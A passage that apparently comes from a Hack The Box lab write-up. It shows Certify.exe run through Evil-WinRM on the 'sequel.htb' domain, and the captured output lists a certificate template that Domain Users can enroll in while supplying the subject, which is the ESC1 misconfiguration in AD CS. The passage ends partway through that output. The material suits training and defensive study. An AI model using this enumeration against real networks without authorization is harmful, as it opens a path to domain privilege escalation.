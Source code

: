 - Certify
    
    [https://github.com/Flangvik/SharpCollection](https://github.com/Flangvik/SharpCollection)
    
    `.\Certify.exe find /vulnerable`
    
    ```
    Evil-WinRM* PS C:\programdata> .\Certify.exe find /vulnerable
    
       _____          _   _  __
      / ____|        | | (_)/ _|
     | |     ___ _ __| |_ _| |_ _   _
     | |    / _ \ '__| __| |  _| | | |
     | |___|  __/ |  | |_| | | | |_| |
      \_____\___|_|   \__|_|_|  \__, |
                                 __/ |
                                |___./
      v1.1.0
    
    [*] Action: Find certificate templates
    [*] Using the search base 'CN=Configuration,DC=sequel,DC=htb'
    
    [*] Listing info about the Enterprise CA 'sequel-DC-CA'
    
        Enterprise CA Name            : sequel-DC-CA
        DNS Hostname                  : dc.sequel.htb
        FullName                      : dc.sequel.htb\sequel-DC-CA
        Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
        Cert SubjectName              : CN=sequel-DC-CA, DC=sequel, DC=htb
        Cert Thumbprint               : A263EA89CAFE503BB33513E359747FD262F91A56
        Cert Serial                   : 1EF2FA9A7E6EADAD4F5382F4CE283101
        Cert Start Date               : 11/18/2022 12:58:46 PM
        Cert End Date                 : 11/18/2121 1:08:46 PM
        Cert Chain                    : CN=sequel-DC-CA,DC=sequel,DC=htb
        UserSpecifiedSAN              : Disabled
        CA Permissions                :
          Owner: BUILTIN\Administrators        S-1-5-32-544
    
          Access Rights                                     Principal
    
          Allow  Enroll                                     NT AUTHORITY\Authenticated UsersS-1-5-11
          Allow  ManageCA, ManageCertificates               BUILTIN\Administrators        S-1-5-32-544
          Allow  ManageCA, ManageCertificates               sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
          Allow  ManageCA, ManageCertificates               sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
        Enrollment Agent Restrictions : None
    
    [!] Vulnerable Certificates Templates :
    
        CA Name                               : dc.sequel.htb\sequel-DC-CA
        Template Name                         : UserAuthentication
        Schema Version                        : 2
        Validity Period                       : 10 years
        Renewal Period                        : 6 weeks
        msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
        mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
        Authorized Signatures Required        : 0
        pkiextendedkeyusage                   : Client Authentication, Encrypting File System, Secure Email
        mspki-certificate-application-policy  : Client Authentication, Encrypting File System, Secure Email
        Permissions
          Enrollment Permissions
            Enrollment Rights           : sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                          sequel\Domain Users           S-1-5-21-4078382237-1492182817-2568127209-513
                                          sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519